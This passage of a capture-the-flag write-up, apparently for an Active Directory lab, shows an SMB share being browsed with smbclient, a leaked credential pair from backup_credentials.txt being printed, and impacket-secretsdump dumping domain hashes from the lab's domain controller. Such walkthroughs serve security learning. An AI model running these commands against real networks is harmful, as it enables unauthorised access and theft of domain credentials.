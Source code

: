 ```php
smbclient //10.10.141.170/backup -U svc-admin
```

![image.png](assets/screenshots/Attactive/4.webp)

Upon exploring the `backup` share, I discovered a file named `backup_credentials.txt`. I promptly downloaded this file to my local machine for analysis. The next step is to examine its contents to determine if it contains any sensitive credentials that could further our access within the domain.

![image.png](assets/screenshots/Attactive/5.webp)

```php
backup@spookysec.local:backup2517860                                                                                                                                                     
```
This was the set of credentials found

##Dumping Domain Secrets Using the Backup Account

With the credentials obtained from the backup share, we proceeded to perform a full secrets dump of the domain using the impacket-secretsdump tool. This allowed us to extract password hashes and other sensitive data from the Domain Controller.

```php
impacket-secretsdump backup@10.10.141.170
```


![image.png](assets/screenshots/Attactive/6.webp)
